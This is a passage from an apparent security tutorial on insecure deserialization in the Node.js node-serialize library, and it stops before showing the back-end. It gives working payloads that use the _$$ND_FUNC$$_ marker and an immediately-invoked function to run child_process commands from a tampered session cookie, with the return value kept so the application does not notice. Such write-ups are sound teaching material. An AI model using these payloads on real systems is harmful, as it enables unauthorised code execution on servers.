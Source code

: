 It even identifies that it is a function but nothing happens. Now, adding `()` at the end of the function creation:

```jsx
> nodeserialize.unserialize('{"myFunction":"_$$ND_FUNC$$_function(){console.log(\'JUST DONT\')}()"}');
JUST DONT
{ myFunction: undefined }
>
```

Thus, it is possible to generate a serialized object, obtain it, and modify it with the desired value for execution and add the `()` at the end.

In this way, it is necessary to understand what is inside the JSON, manipulate the values, and send them to the backend.

It is possible that an application sets a session cookie as JSON:

```jsx
{"username": "hendrich@blog.com.br", "id": 12453464564.2675}
```

So, in the place of the username, you could pass a malicious function to it:

```jsx
const nodeserialize = require('node-serialize');

let user = {};

user.username= function() {require('child_process').execSync('sleep 5')};
user.id = 12453464564.2675
serialziedObj = nodeserialize.serialize(user);
console.log(serialziedObj);
```

```jsx
{"username":"_$$ND_FUNC$$_function() {require('child_process').execSync('sleep 5')}","id":12453464564.2675}
```

*Note: The `child_process` library is built-in in Node.js, so there is no need to worry.*

Now making some modifications to the output, note that in addition to `()`, a return value will be added to the function with the same value previously obtained in the initial request to avoid conflicting with the expected behavior of the application:

```jsx
{
    "username": "_$$ND_FUNC$$_function() {require('child_process').execSync('sleep 5');return "hendrich@blog.com.br";}()",
    "id": 12453464564.2675
}
```

In this case, note that the one unserializing could be an API and not the application itself.

For this application, this could be the back-end:
